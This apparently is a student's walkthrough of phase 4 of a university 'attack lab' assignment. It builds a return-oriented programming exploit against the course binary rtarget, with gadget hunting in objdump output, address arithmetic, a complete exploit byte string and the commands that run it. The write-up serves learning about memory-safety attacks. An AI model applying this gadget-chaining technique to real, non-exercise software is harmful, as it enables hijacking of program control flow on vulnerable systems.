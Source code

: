 Phase 4 is different from the previous 3 because on this target, we can't execute code for the following two reasons:
1. Stack randomization -- you can't simply point your injected code to a fixed address on the stack and run your explit code
2. Non-executeble memory block. This feature prevents you from executing instructions on the machine because the memory block is marked as non-executable.

The solution for this is to use ROP (Return Oriented Programming), what ROP does is that since we can't execute our own code, we will look for instructions
in the code that do the same thing as what we want. These are called gadgets and by combining these gadgets, we will be able to perform our exploit.

For this phase, we will be using the program rtarget instead of ctarget

This phase is the same as phase 2 except you are using different exploit method to call touch2 and pass your cookie.

In the pdf it tells you to find the instructions from the table and one of the instructions you will use involve popping rdi register off the stack,

`popq %rdi` is given in the the pdf and it's byte representation is `5f`, since we don't have 5f byte in the dump file, we will look for a substitute which
is `popq %rax% with byte representation of `58`

In your disassembled code, (objdump -d rtarget > rtarget_dump.txt), there are a lot of functions and the ones you can pick your instructions are located 
between start_farm and end_farm something like that. Now, search for 58 between those.

```
00000000004018ee <getval_336>:
4018ee:	b8 1b f3 8c 58       	mov    $0x588cf31b,%eax
4018f3:	c3                   	retq   
```

I found the above in the disassembled code and there might be more than one but take note of the address of 58, which will be used later.

The other instruction you need is: `movq %rax %edi` and it's byte representation is `48 89 c7 c3` which is referenced in the pdf. 
Go back to your disassembled code and search for that byte code.

I found:

```
0000000000401907 <setval_131>:
401907:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
40190d:	c3                   	retq   
```

Now you have 2 gadgets and can exploit the rtarget program.

The exploit we are doing is:

```
popq %rax
movq %rax %rdi
ret 
```

The next step is constructing your string, the format is padding for the buffer size, gadget 1 address, your cookie, gadget 2 address, return address
and finally touch2 address.

Becareful with the address of the gadgets, it starts at the byte code we are looking for not at the address where the function starts.

What I mean is that, look at the first gadget:
```
00000000004018ee <getval_336>:
4018ee:	b8 1b f3 8c 58       	mov    $0x588cf31b,%eax
4018f3:	c3                   	retq   
```
The address of the function starts at `4018ee` but 58 is present on the 5th byte, so we need to add 4 bytes to the address.
We just want the bytes starting at that address.

`4018ee + 4 = 4018f2`

Same thing with the second gadget: address starts at `401907` but `48 89 c7 c3` starts on the 3rd byte, so add 2 bytes to the address.

```
0000000000401907 <setval_131>:
401907:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
40190d:	c3                   	retq   
```

`401907 + 2 = 401909`

Now put everything together in a file named phase4.txt and here is my version:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* first 24(buffer size) bytes here are just padding */
f2 18 40 00 00 00 00 00 /* gadget 1: popq %rax address starts at last byte */
70 4b 4b 43 00 00 00 00 /* cookie */
09 19 40 00 00 00 00 00 /* gadget 2: move %rax to %rdi */
8c 17 40 00 00 00 00 00 /* touch2 address
```

Last step is to generate the raw eploit string using the hex2raw program.

`./hex2raw < phase4.txt > raw-phase4.txt`

Finally, you run the raw file (remember you are running it on rtarget, not ctarget)

`./rtarget < raw-phase4.txt`

You should get something like below:

```
Type string:Touch2!: You called touch2(0x434b4b70)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

